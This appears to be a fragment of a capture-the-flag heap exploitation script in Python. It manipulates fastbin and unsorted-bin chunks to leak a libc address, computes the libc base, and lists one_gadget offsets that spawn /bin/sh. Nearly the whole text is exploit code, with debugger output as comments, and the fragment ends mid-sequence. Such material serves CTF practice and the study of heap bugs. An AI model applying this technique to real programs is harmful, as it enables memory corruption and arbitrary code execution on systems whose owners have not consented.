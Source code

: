 ```python
# 0x30: 0x0
# 0x40: 0x0
# 0x50: 0x0
# 0x60: 0x0
# 0x70: 0x0
# 0x80: 0x0

# edit i3 to prepare for allcaote i4
payload = p64(0)*3 + p64(0x21)
fill(3,len(payload),payload)
allocate(0x10) # allocate the 0x55c37438a040 which i1 point to
allocate(0x10) # get i4(small bin) which i2 point to
# dbg()
payload = p64(0)*3 + p64(0x91)
fill(3,len(payload),payload)
allocate(0x80) # i5,to avoid the small bin which we will free later to combine with top chunk
free(4)
# the i4 was allcoate at first,now we free it
# we allocate a fastbin(i2) still point to here(0x564f38404080)
# so while we dump(2), it will dump i4's contnet actually,
# and meanwhile it's contains a addr which near the main_arena
# dbg()
# pwndbg> x/32g 0x5614b339c020
# 0x5614b339c020:   0x0000000000000000  0x0000000000000021 <--i1
# 0x5614b339c030:   0x6262626262626262  0x6262626262626262
# 0x5614b339c040:   0x0000000000000000  0x0000000000000021
# 0x5614b339c050:   0x0000000000000000  0x0000000000000000
# 0x5614b339c060:   0x0000000000000000  0x0000000000000021 <--i3
# 0x5614b339c070:   0x0000000000000000  0x0000000000000000
# 0x5614b339c080:   0x0000000000000000  0x0000000000000091 <-- i4,i2
# 0x5614b339c090:   0x00007f3579d12b78  0x00007f3579d12b78
# ......
# pwndbg> unsorted
# unsortedbin
# all: 0x5614b339c080 -> 0x7f3579d12b78 (main_arena+88) <- 0x5614b339c080
# pwndbg>

# now we can dump it to leak libc_base
addr = u64(dump(2)[:8].ljust(8,'\x00'))
leak('addr',addr)
main_arena = u64(dump(2)[:8].ljust(8,'\x00')) - 0x58
leak("main_arena",main_arena)
libc_base = addr - 0x88 - 0x3c4af0
leak("libc_base",libc_base)

# now we get libc address

# one_gadget = 0x45216 # execve("/bin/sh", rsp+0x30, environ
one_gadget = 0x4526a # execve("/bin/sh", rsp+0x30, environ)
# constraints:
#   [rsp+0x30] == NULL

# one_gadget = 0xf02a4 execve("/bin/sh", rsp+0x50, environ)
# constraints:
#   [rsp+0x50] == NULL

# one_gadget = 0xf1147 execve("/bin/sh", rsp+0x70, environ)
# constraints:
#   [rsp+0x70] == NULL


allocate(0x60)
free(4)
```